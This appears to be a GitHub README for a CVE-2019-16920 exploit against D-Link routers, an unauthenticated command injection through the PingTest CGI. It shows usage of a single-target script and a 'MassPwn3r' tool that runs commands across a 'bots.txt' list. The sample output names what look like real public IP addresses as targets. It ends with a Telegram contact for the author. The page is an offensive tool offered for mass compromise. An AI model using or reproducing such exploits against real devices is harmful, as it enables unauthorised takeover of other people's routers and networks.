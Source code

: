 # 0day exploit for Multiple D-Link Routers
Vulnerability was found in latest firmware of the following D-Link products:
    DIR-655
    DIR-866L
    DIR-652
    DHP-1565

# Current Description

Unauthenticated remote code execution occurs in D-Link products such as DIR-655C, DIR-866L, DIR-652, and DHP-1565. The issue occurs when the attacker sends an arbitrary input to a "PingTest" device common gateway interface that could lead to common injection. An attacker who successfully triggers the command injection could achieve full system compromise. Later, it was independently found that these are also affected: DIR-855L, DAP-1533, DIR-862L, DIR-615, DIR-835, and DIR-825.

# Usage CVE-2019-16920.py:
```
root@kali:~# python3 CVE-2019-16920.py 195.208.166.41 8081 ls
[*]Sending payload
[*]Exploited!
root@kali:~#
```

# Usage CVE-2019-16920-MassPwn3r.py:
```
root@kali:~# python3 CVE-2019-16920-MassPwn3r.py bots.txt 8081 id
[*]Exploiting:  195.208.166.41
[!]Unable to connect to host
[!]Unable to connect to host
[*]Exploiting:  83.243.166.37
[*]Exploiting:  74.95.133.33
[*]Exploiting:  97.89.64.118
[*]Exploiting:  66.162.68.154
[!]Unable to connect to host
[*]Exploiting:  72.47.152.161
[*]Exploiting:  97.93.250.209
[*]Exploiting:  183.207.196.64
root@kali:~#
```

# Contacts:
Telegram:```@eth_hacker0x18```
